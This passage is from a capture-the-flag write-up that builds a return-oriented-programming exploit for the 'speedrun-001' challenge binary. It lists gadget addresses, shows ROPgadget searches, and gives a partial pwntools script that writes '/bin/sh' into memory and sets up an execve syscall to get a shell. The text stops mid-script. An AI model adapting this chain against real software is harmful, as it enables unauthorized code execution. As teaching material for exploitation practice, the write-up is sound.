 So we found our four gadgets at the addresses `0x415664`, `0x400686`, `0x4101f3`, and `0x4498b5`. Next we will need a gadget which will write the string `/bin/sh` somewhere to memory. For this I looked through all of the gadgets with a `mov` instruction:

```
$    python3 ROPgadget.py --binary speedrun-001 | grep "mov" | less
```

Looking through the giant list, this one seems like it would fit our needs perfectly:

```
0x000000000048d251 : mov qword ptr [rax], rdx ; ret
```

This gadget will allow us to write an `8` byte value stored in `rdx` to whatever address is pointed to by the `rax` register. In addition it's kind of convenient since we can use the four gadgets we found earlier to prep this write. Lastly we just need to find a gadget for `syscall`:

```
$    python3 ROPgadget.py --binary speedrun-001 | grep ": syscall"
0x000000000040129c : syscall
```

Keep in mind that our ROP chain is comprised of addresses to instructions, and not the instructions themselves. So we will overwrite the return address with the first gadget of the ROP chain, and when it returns it will keep on going down the chain until we get our shell. Also for moving values into registers, we will store those values on the stack in the ROP Chain, and they will just be popped off into the regisets. Putting it all together we get the following exploit:

```
from pwn import *

target = process('./speedrun-001')
#gdb.attach(target, gdbscript = 'b *0x400bad')

# Establish our ROP Gadgets
popRax = p64(0x415664)
popRdi = p64(0x400686)
popRsi = p64(0x4101f3)
popRdx = p64(0x4498b5)

# 0x000000000048d251 : mov qword ptr [rax], rdx ; ret
writeGadget = p64(0x48d251)

# Our syscall gadget
syscall = p64(0x40129c)

'''
Here is the assembly equivalent for these blocks
write "/bin/sh" to 0x6b6000

pop rdx, 0x2f62696e2f736800
pop rax, 0x6b6000
mov qword ptr [rax], rdx
'''
rop = b""
rop += popRdx
rop += b"/bin/sh\x00" # The string "/bin/sh" in hex with a null byte at the end
rop += popRax
rop += p64(0x6b6000)
rop += writeGadget

'''
Prep the four registers with their arguments, and make the syscall

pop rax, 0x3b
pop rdi, 0x6b6000
pop rsi, 0x0
```